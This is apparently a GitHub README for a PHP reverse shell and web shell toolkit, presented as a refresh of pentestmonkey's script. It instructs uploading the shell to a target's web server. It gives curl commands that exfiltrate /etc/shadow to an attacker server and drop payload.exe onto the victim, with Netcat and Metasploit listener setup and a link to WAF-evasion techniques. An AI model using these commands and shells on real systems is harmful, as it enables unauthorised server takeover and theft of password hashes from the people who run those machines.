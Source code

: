 # PHP Reverse Shell

Just a little refresh on the popular PHP reverse shell script [pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell). Credits to the original author!

Works on Linux OS and macOS with `/bin/sh` and Windows OS with `cmd.exe`. Script will automatically detect the underlying OS.

Works with both, `ncat` and `multi/handler`.

Tested on XAMPP for Linux v7.3.19 (64-bit) with PHP v7.3.19 on Kali Linux v2020.2 (64-bit).

Tested on XAMPP for OS X v7.4.10 (64-bit) with PHP v7.4.10 on macOS Catalina v10.15.6 (64-bit).

Tested on XAMPP for Windows v7.4.3 (64-bit) with PHP v7.4.3 on Windows 10 Enterprise OS (64-bit).

In addition, everything was tested on Docker images [nouphet/docker-php4](https://hub.docker.com/r/nouphet/docker-php4) with PHP v4.4.0 and [steeze/php52-nginx](https://hub.docker.com/r/steeze/php52-nginx) with PHP v5.2.17.

Made for educational purposes. I hope it will help!

**Process pipes on Windows OS do not support asynchronous operations so `stream_set_blocking()`, `stream_select()`, and `feof()` will not work properly, but I found a workaround.**

## Table of Contents

* [Reverse Shells](#reverse-shells)
* [Web Shells](#web-shells)
* [File Upload/Download Script](#file-uploaddownload-script)
	* [Case 1: Upload the Script to the Victim’s Server](#case-1-upload-the-script-to-the-victims-server)
	* [Case 2: Upload the Script to Your Server](#case-2-upload-the-script-to-your-server)
* [Set Up a Listener](#set-up-a-listener)
* [Images](#images)

## Reverse Shells

[/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php) requires PHP v5.0.0 or greater.

[/src/reverse/php_reverse_shell_older.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell_older.php) requires PHP v4.3.0 or greater.

**Change the IP address and port number inside the scripts as necessary.**

Copy [/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php) to your server's web root directory (e.g. to /opt/lampp/htdocs/ on XAMPP) or upload it to your target's web server.

Navigate to the file with your preferred web browser.

## Web Shells

Check the [simple PHP web shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/web/simple_php_web_shell_post.php) based on HTTP POST request.

Check the [simple PHP web shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/web/simple_php_web_shell_get.php) based on HTTP GET request. You must [URL encode](https://www.urlencoder.org) your commands.

Check the [simple PHP web shell v2](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/web/simple_php_web_shell_get_v2.php) based on HTTP GET request. You must [URL encode](https://www.urlencoder.org) your commands.

Find out more about PHP obfuscation techniques for old versions of PHP at [lcatro/PHP-WebShell-Bypass-WAF](https://github.com/lcatro/PHP-WebShell-Bypass-WAF). Credits to the author!

## File Upload/Download Script

Check the [simple PHP file upload/download script](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/web/files.php) based on HTTP POST request for file upload and HTTP GET request for file download.

When downloading a file, you must [URL encode](https://www.urlencoder.org) the file path, and don't forget to specify the output file if using cURL.

When uploading a file, and don't forget to specify `@` before the file path.

Depending on the server configuration, downloading a file through HTTP GET request parameter might not always work, instead, you will have to hardcore the file path in the script.

### Case 1: Upload the Script to the Victim’s Server

Navigate to the script on the victim's web server with your preferred web browser, or use cURL from you PC.

Upload a file to the server's web root directory from your PC:

```fundamental
curl -skL -X POST https://victim.com/files.php -F file=@/root/payload.exe
```

Download a file from the server to your PC:

```fundamental
curl -skL -X GET https://victim.com/files.php?file=/etc/shadow -o shadow
```

If you elevated your initial privileges within your reverse shell, this script might not have the same privileges as the shell. In that case, to download a certain file, you might need to copy the file to the web root directory and set the necessary read permissions.

### Case 2: Upload the Script to Your Server

From your PHP reverse shell, run the following cURL commands.

Upload a file from the victim's PC to your server's web root directory:

```fundamental
curl -skL -X POST https://my-server.com/files.php -F file=@/etc/shadow
```

Download a file from your server's web root directory to the victim's PC:

```fundamental
curl -skL -X GET https://my-server.com/files.php?file=/root/payload.exe -o payload.exe

curl -skL -X GET https://my-server.com/payload.exe -o payload.exe
```

## Set Up a Listener

To set up a listener, open your preferred console on Kali Linux and run one of the examples below.

Set up `ncat` listener:

```fundamental
ncat -nvlp 9000
```

Set up `multi/handler` listener:

```fundamental
msfconsole -q

use exploit/multi/handler

set PAYLOAD windows/shell_reverse_tcp

set LHOST 192.168.8.185

set LPORT 9000

exploit
```

## Images

<p align="center"><img src="https://github.com/ivan-sincek/php-reverse-shell/blob/master/img/ncat.png" alt="Ncat"></p>

<p align="center">Figure 1 - Ncat</p>

<p align="center"><img src="https://github.com/ivan-sincek/php-reverse-shell/blob/master/img/scripts_dump.jpg" alt="Script Dump"></p>

<p align="center">Figure 2 - Script's Dump</p>
